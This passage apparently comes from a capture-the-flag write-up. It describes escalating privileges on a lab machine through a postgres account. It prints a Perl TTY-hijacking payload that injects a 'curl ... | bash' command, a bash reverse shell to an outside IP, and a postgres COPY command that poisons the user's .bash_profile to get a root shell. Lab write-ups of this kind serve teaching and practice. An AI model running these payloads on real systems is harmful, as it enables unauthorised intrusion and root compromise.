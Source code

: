 Then i decided to check out the permissions this account had and we could see it was allowed to write files using the permissions of the postgres user.

```
\du+
```
![Permissions](/assets/img/Download/Download_06.png)

## Privesc

If you want to know exactly on how TTY hijacking works i'll refer you to the [blog](https://ruderich.org/simon/notes/su-sudo-from-root-tty-hijacking) i used. this also gave me the following perl payload. I used curl to have help debug this payload as it would give me proof of execution on my webserver if it actually ran.

```perl
#!/usr/bin/perl
require "sys/ioctl.ph";
open my $tty_fh, '<', '/dev/tty' or die $!;
foreach my $c (split //, "exit\n".'curl 10.10.14.37/shell | bash'.$/) {
    ioctl($tty_fh, &TIOCSTI, $c);
}

```

The contents of the shell file was a plain basic reverse shell command

```bash
/bin/bash -l > /dev/tcp/10.10.14.37/443 0<&1 2>&1
```

With both files in place it was time to poison the bash profile of the postgres user. The bash profile is a set of commands that always runs whenever someone logs into the account. This is also a great method to keep persistance on a linux machine. Using the following postgres command within the postgres shell it was possible to overwrite its bash profile

```
copy (select 'perl /tmp/.hidden/exploit.pl') to '/var/lib/postgresql/.bash_profile';
```
Then after a good minute or so we were greeted with a root shell

![Root shell](/assets/img/Download/Download_07.png)
